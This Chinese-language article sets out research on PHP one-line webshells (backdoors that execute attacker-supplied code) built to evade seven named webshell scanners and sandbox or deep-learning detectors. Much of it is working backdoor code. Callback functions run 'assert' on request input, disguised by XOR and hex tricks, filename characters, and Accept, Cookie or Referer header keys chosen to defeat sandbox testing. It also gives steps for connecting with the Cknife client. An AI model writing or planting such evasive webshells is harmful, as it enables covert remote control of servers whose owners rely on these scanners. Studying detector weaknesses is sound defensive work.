## 0x00: 前言

   一般的，利用能够执行系统命令、加载代码的函数，或者组合一些普通函数，完成一些高级间谍功能的网站后门的脚本，叫做Webshell。

  本篇文章主要探讨关于PHP语言的Webshell检测工具和平台的绕过方法，实现能够绕过以下表格中7个主流(基本代表安全行业内PHP Webshell检测的一流水平)专业工具和平台检测的PHP Webshell，构造出零提示、无警告、无法被检测到的一句话木马后门。

| 编号   | 名称                         | 参考链接                                     |
| ---- | -------------------------- | ---------------------------------------- |
| 1    | 网站**安全狗**网马查杀              | http://download.safedog.cn/download/software/safedogwzApache.exe |
| 2    | **D盾** Web查杀               | http://www.d99net.net/down/WebShellKill_V2.0.9.zip |
| 3    | **深信服**WebShellKillerTool  | http://edr.sangfor.com.cn/tool/WebShellKillerTool.zip |
| 4    | **BugScaner** killwebshell | http://tools.bugscaner.com/killwebshell/ |
| 5    | **河马专业版**查杀Webshell        | http://n.shellpub.com/                   |
| 6    | **OpenRASP** WEBDIR+检测引擎   | https://scanner.baidu.com                |
| 7    | **深度学习模型**检测PHP Webshell   | http://webshell.cdxy.me/                 |

研究期间做了大量的测试，限于篇幅和文章效果，在不影响阅读体验的情况下，部分测试过程和结果略去了。

## 0x01：Webshell后门

目前来讲，我把用纯php代码实现的Webshell后门(以下统称为"木马")，主要分为以下几类：

- **单/少功能木马**

  能完成写入文件、列目录、查看文件、执行一些系统命令等少量功能的Webshell。

- **逻辑木马**

  利用系统逻辑漏洞或构造特殊触发条件，绕过访问控制或执行特殊功能的Webshell。

- **一句话木马**

  可以在目标服务器上执行php代码，并和一些客户端(如菜刀、Cknife)进行交互的Webshell。

- **多功能木马**

  根据PHP语法，编写较多代码，并在服务器上执行，完成大量间谍功能的Webshell(大马)。

其中，一句话木马的原理如下图：



> 客户端将PHP代码使用特殊参数名(密码)，发送给放置在服务端上的一句话木马文件；
>
> 一句话木马脚本则在服务器上执行发来的PHP代码，然后将执行结果回传给客户端，客户端将结果解析并展示给操作者。

## 0x02：查杀现状研究

根据0x01的一句话木马原理，我们知道必须要在服务器上执行客户端发来的字符串形式的PHP代码。

脚本要将字符串(或文件流)当作PHP代码执行，目前主要会使用以下函数：

|   函数   | 说明                                       |
| :----: | ---------------------------------------- |
|  eval  | PHP 4, PHP 5, PHP 7+ 均可用，接受一个参数，将字符串作为PHP代码执行 |
| assert | PHP 4, PHP 5, PHP 7.2 以下均可用，一般接受一个参数，php 5.4.8版本后可以接受两个参数 |
| 正则匹配类  | preg_replace/ mb_ereg_replace/preg_filter等 |
| 文件包含类  | include/include_once/require/require_once/file_get_contents等 |

本文为了好说明问题，统一将上面表中可以将字符串当作代码执行的函数临时起个名字，叫"**函数机**"。

不幸的是，但凡直接出现函数机，即便不是进行恶意操作，部分查杀软件也会产生警告，达不到我们的要求。

比如用D盾检测如下脚本：



  然后，就需要方法来隐藏上面的函数机。但是随着攻防对抗的升级，较传统的字符串拆分、变形、进制转换、运算变换等躲避Webshell查杀的效果已经大大降低。

  所以，经过调研和比较，本文选择了通过可以携带参数的PHP回调函数来创造后门的技术，来实现绕过检测软件的一句话木马后门。

  拿出来曾经披露过的一个回调函数后门函数"register_shutdown_function"做测试，发现虽然D盾、深信服的工具没有发觉到"register_shutdown_function"加 "assert"的变形，但是安全狗还是察觉到了。

```php
<?php
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
register_shutdown_function($ch[1].$ch[3].$ch[4], $_REQUEST[$password]);
?>
```



所以，有理由推测，有一个恶意函数库，凡是网络上披露过的可用作后门的回调函数，都可能在其中，而且很大概率上会被检测出来。

经过收集，发现网络上50多个**已披露出来的**可用作后门的回调函数和类中，有部分函数仍然可以用来绕过Webshell查杀软件。

## 0x03：查找可做后门的回调函数

去[PHP官网](http://php.net/manual/zh/)查阅函数手册，查找可以用作后门的PHP回调函数，根据实际经验，利用下面五个关键词，能提高查找到拥有后门潜质的PHP回调函数的效率：

##### 关键词一：callable



##### 关键词二：mixed $options



##### 关键词三：handler



##### 关键词四：callback



##### 关键词五：invoke



除此之外，**PHP扩展**中也有些合适的回调函数，不过可能通用性不强，本文不做讨论。

## 0x04：绕过传统检测

先拿披露过的array_udiff_assoc()函数构造一个免杀一句话。

函数定义：

```php
array array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func )
```

根据定义，可以构造代码：

```php
array_udiff_assoc(array("phpinfo();"), array(1), "assert");
```

继续构造适合客户端连接的一句话木马脚本[array_udiff_assoc.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_udiff_assoc.php)：

```php
<?php
/**
* Noticed: (PHP 5 >= 5.4.0, PHP 7)
*
*/
$password = "LandGrey";
array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");
?>
```

浏览器访问

`http://127.0.0.1/shell/test/test.php?LandGrey=phpinfo();`

Cknife添加目标`http://127.0.0.1/shell/test/test.php`  密码: LandGrey，可成功连接。



用查杀工具检测：只有故意放置的一个eval一句话被查出来。



bugscaner 在线查杀，通过



使用河马正式版在线查杀，通过



至此，我们**已经绕过安全狗、D盾和深信服的客户端Webshell查杀和bugscaner、河马正式版的在线查杀**。

可以发现，只需找一个网络上没有"**频繁出现**"或"**没有出现过**"回调函数，**稍加变形**，即可绕过传统技术的检测。

再给一个"array_intersect_ukey"反调函数的免杀示例[array_intersect_ukey.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_ukey.php)：

```php
<?php
/**
 * Noticed: (PHP 5 >= 5.4.0, PHP 7)
 *
 */
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
array_intersect_ukey(array($_REQUEST[$password] => 1), array(1), $ch[1].$ch[3].$ch[4]);
?>
```

## 0x05：突破**OpenRASP** WebShell沙盒检测

接着用OpenRASP团队的WEBDIR+在线查杀平台，被查出来是后门



经过反复测试和观察，OpenRASP 团队的Webshell检测使用了动态监测技术，原理上应该是**将脚本放在安全沙盒中执行，分析脚本行为、尝试触发脚本的后门动作等**。不管混淆的脚本多厉害，使用了多巧妙的函数，试执行时基本都会被检测出来。

刚开始时，发现使用**PHP脚本加密技术**，可以有效绕过OpenRASP团队的WEBDIR+ Webshell检测服务。但加密动作太大，会被D盾或深信服的Webshell查杀软件警告，不仅不能实现零警告和无提示，人眼一看就会发现有问题，所以放弃了加密脚本这条路。

然后就陷入了一段时间的思索，这里给出一种基于免杀的回调函数，**利用信息不对称**来绕过OpenRASP  WEBDIR+平台检测的技术：

1. #### 利用重命名前后的脚本名不同

在检测几次后，观察发现WEBDIR+ 把上传文件都按照文件哈希值重名了



所示，猜测该平台是先将上传脚本重命名，然后再在沙盒中试执行检测Webshell。那么就可以利用一句话脚本文件名在重命名前后的差别，完成绕过。一段核心的绕过检测的木马代码[array_intersect_uassoc-s.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/array_intersect_uassoc-file-last-char-must-be-s.php)：

```php
<?php
$password = "LandGrey";
${"LandGrey"} = substr(__FILE__,-5,-4) . "class";
$f = $LandGrey ^ hex2bin("12101f040107");
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```

脚本名必须是"***s.php"的名字形式，即最后一位字符要为"s"，然后用"sclass" 和 hex2bin("12101f040107")的值按位异或，得到"assert"，从而利用回调函数，执行PHP代码。

上传到WEBDIR+系统后，脚本被重命名，"**试执行时自然无法复现木马行为**"，从而绕过了检测。这种方式有一种明显的要求，就是我们能够准确预知或控制脚本名的最后一位字符。

如果写成通用型脚本，根据文件名的最后一位字符，自动选择做异或的字符串，得到"assert"，代码示例如下：

```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} =  $key."Land!";
$trick = array(
    "0" => "51", "1" => "50", "2" => "53", "3" => "52", "4" => "55", "5" => "54", "6" => "57", "7" => "56", "8" => "59",
    "9" => "58", "a" => "00", "b" => "03", "c" => "02", "d" => "05", "e" => "04", "f" => "07", "g" => "06", "h" => "09",
    "i" => "08", "j" => "0b", "k" => "0a", "l" => "0d", "m" => "0c", "n" => "0f", "o" => "0e", "p" => "11", "q" => "10",
    "r" => "13", "s" => "12", "t" => "15", "u" => "14", "v" => "17", "w" => "16", "x" => "19", "y" => "18", "z" => "1b",
    "A" => "20", "B" => "23", "C" => "22", "D" => "25", "E" => "24", "F" => "27", "G" => "26", "H" => "29", "I" => "28",
    "J" => "2b", "K" => "2a", "L" => "2d", "M" => "2c", "N" => "2f", "O" => "2e", "P" => "31", "Q" => "30", "R" => "33",
    "S" => "32", "T" => "35", "U" => "34", "V" => "37", "W" => "36", "X" => "39", "Y" => "38", "Z" => "3b",
);
$f = pack("H*", $trick[$key]."3f120b1655") ^ $key."Land!";
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```

就如下图所示，会被查杀：



将脚本命名为[array_intersect_uassoc-r.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_uassoc-filename-last-char-must-be-r.php), 硬编码脚本最后一位字符为"r"，就不会被平台检测到，证明了我们原始的想法和对平台检测原理的部分推测:

```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} =  $key."Land!";
$f = pack("H*", "13"."3f120b1655") ^ $LandGrey;
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```

2. #### 利用检测平台的信息缺失

接着猜想：当脚本在沙盒中运行时，如果得不到可以让脚本正常执行的关键信息，平台就无法查杀Webshell；而我们连接时，带上关键信息，就可以正常使用一句话木马后门，从而绕过查杀。

例如，利用下面的一句话[array_intersect_uassoc-headers-accept-r.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_uassoc-headers-accept-r.php)，请求时，Cknife携带请求头`Accept: r`，密码输入"LandGrey"，即可成功连接一句话木马：



```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} = $_SERVER["HTTP_ACCEPT"]."Land!";
$f = pack("H*", "13"."3f120b1655") ^ $LandGrey;
array_intersect_uassoc(array($_REQUEST[$password] => ""), array(1), $f);
?>
```



3. #### 其它信息的差异

在针对某个特别的目标测试时，可以利用目标的特殊信息构造信息的差异，实现Webshell绕过。

如目标IP地址的唯一性、域名、特殊Cookie、Session字段和值、$_SERVER变量中可被控制的值，甚至是主机Web服务的根目录、操作系统等一些差别，发挥空间很大。

## 0x06：绕过深度学习技术的检测

当用0x05 "**1. 利用重命名前后的脚本名不同**"中的脚本来测试时，被深度学习模型技术检测Webshell给查杀了。

但是基于免杀的回调函数，利用0x05给出的"**2. 利用检测平台的信息缺失**"给出的一句话，仍然可以突破 webshell.cdxy.me平台的Webshell检测:



为了避免偶然，换个免杀函数，再测试一次。请求时设置Cookie值为`Cookie: set-domain-name=ass;`，以下示例脚本[array_intersect_ukey-cookie-ass.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_ukey-cookie-ass.php)代码也可绕过该平台的查杀，当然，以上提到的其它工具和平台也可以绕过。

```php
<?php
/**
 *  Noticed: (PHP 5 >= 5.4.0, PHP 7)
 *
 */
$password = "LandGrey";
$ch = $_COOKIE["set-domain-name"];
array_intersect_ukey(array($_REQUEST[$password] => 1), array(1), $ch."ert");
?>
```

## 小插曲

在测试期间，还对河马机器学习查杀引擎  http://ml.shellpub.com 进行过测试，发现突破不了。测试中，发现连下面的正常语句都会被杀：

```php
<?php
array(1)
?>
```

所以就将Wordpress的源码上传，测试下系统的可用性。1774个文件，发现了1494个疑似后门。系统的测试结果不能作为判断标准，所以正文中略过了对该平台的测试。



## 0x07: 彩蛋

最后再给出一个可以绕过当前市面上几乎所有Webshell查杀的PHP一句话木马脚本[forward_static_call_array-referer-ass.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/forward_static_call_array-referer-ass.php)。请求时，设置Referer头，后面以"ass\****"结尾即可,比如：`Referer: http://www.target.com/ass.php`。

在使用Cknife时，注意软件实现有缺陷，会从第二个":"处截断，可改成`Referer: http%3a//www.target.com/ass.php`

```php
<?php
/**
 * Noticed: (PHP 5 >= 5.3.0, PHP 7)
 *
 */
$password = "LandGrey";
$wx = substr($_SERVER["HTTP_REFERER"],-7,-4);
forward_static_call_array($wx."ert", array($_REQUEST[$password]));
?>
```

## 0x08: 后记

文章的"**0x04: 绕过传统检测**"研究结果表明：对于基于**陌生的回调函数后门**构造的一句话后门**脚本本身**，传统的基于特征、正则表达式和黑名单制的查杀技术，已经失去了对抗PHP Webshell检测的意义。

"**0x05: 突破OpenRASP WebShell沙盒检测**"、"**0x06: 绕过深度学习技术的检测**"和"**小插曲**"部分的研究结果表名：新型的沙盒技术、深度学习、机器学习查杀平台还不够成熟和稳定，虽然在**检测未知的一句话木马方面表现领先于传统检测方式**，但是经过研究，还是可以构造出绕过查杀的PHP一句话木马脚本。

文章以上研究都是对PHP一句话**木马脚本本身**的免杀研究。文章发布后，以上多个回调函数后门估计很快会被加入黑名单。

要注意对于实际应用中，脚本本身免杀只是第一步，WAF和查杀软件可能会根据脚本的创建日期、文件大小、通信流量特征等多个方面，动态、综合的判断脚本是否为恶意Webshell，本文并未涉及。

## 0x09: 参考文档

http://php.net/manual

https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

https://joychou.org/web/webshell.html

http://www.likesec.com/2017/12/08/webshell/

http://blog.safedog.cn/?p=68

http://www.freebuf.com/articles/web/155891.html

http://www.freebuf.com/articles/web/9396.html

https://blog.csdn.net/xysoul/article/details/49791993

https://cloud.tencent.com/developer/article/1097506

http://www.91ri.org/12824.html

http://www.3years.cc/index.php/archives/18/

http://www.cnblogs.com/LittleHann/p/3522990.html

https://habrahabr.ru/post/215139/

https://stackoverflow.com/questions/14674834/php-convert-string-to-hex-and-hex-to-string